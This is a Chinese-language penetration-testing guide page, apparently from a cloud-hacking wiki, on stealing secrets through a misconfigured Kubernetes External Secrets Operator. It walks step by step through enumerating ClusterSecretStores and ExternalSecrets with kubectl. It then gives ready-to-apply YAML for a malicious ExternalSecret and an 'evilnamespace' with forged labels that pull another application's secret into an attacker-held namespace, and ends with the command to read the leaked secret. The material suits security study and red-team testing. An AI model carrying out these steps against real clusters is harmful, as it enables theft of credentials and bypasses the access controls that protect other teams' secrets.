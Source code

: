 # External Secret Operator

**该页面的原作者是** [**Fares**](https://www.linkedin.com/in/fares-siala/)

本页面提供了一些关于如何从配置错误的ESO或使用ESO同步其秘密的应用程序中窃取秘密的指引。

## 免责声明

下面展示的技术仅在满足某些条件时有效。例如，它依赖于允许在您拥有/已攻陷的命名空间中同步秘密的要求。您需要自己找出这些条件。

## 先决条件

1. 在具有命名空间管理员权限的kubernetes / openshift集群中获得立足点
2. 在集群级别对至少ExternalSecret具有读取权限
3. 确定是否需要任何必需的标签/注释或组成员资格，以允许ESO同步您的秘密。如果您运气好，您可以自由窃取任何定义的秘密。

### 收集有关现有ClusterSecretStore的信息

假设您有足够权限读取此资源的用户；首先列出现有的_**ClusterSecretStores**_。
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret 枚举

假设您找到了一个名为 _**mystore**_ 的 ClusterSecretStore。继续枚举其关联的 externalsecret。
```sh
kubectl get externalsecret -A | grep mystore
```
_这个资源是命名空间范围的，因此除非你已经知道要查找哪个命名空间，否则请添加 -A 选项以查看所有命名空间。_

你应该会得到一个定义的 externalsecret 列表。假设你找到了一个名为 _**mysecret**_ 的 externalsecret 对象，它由命名空间 _**mynamespace**_ 定义和使用。收集更多关于它持有什么类型的秘密的信息。
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### 组装各个部分

从这里你可以获取一个或多个秘密名称（如在 Secret 资源中定义的）。你将得到类似于以下的输出：
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
到目前为止，我们得到了：

- ClusterSecretStore 的名称
- ExternalSecret 的名称
- 秘密的名称

现在我们拥有了所需的一切，您可以创建一个 ExternalSecret（并最终修补/创建一个新的 Namespace，以符合同步新秘密所需的先决条件）：
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
在几分钟后，如果同步条件满足，您应该能够在您的命名空间中查看泄露的秘密。
```sh
kubectl get secret leaked_secret -o yaml
```
## 参考

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}
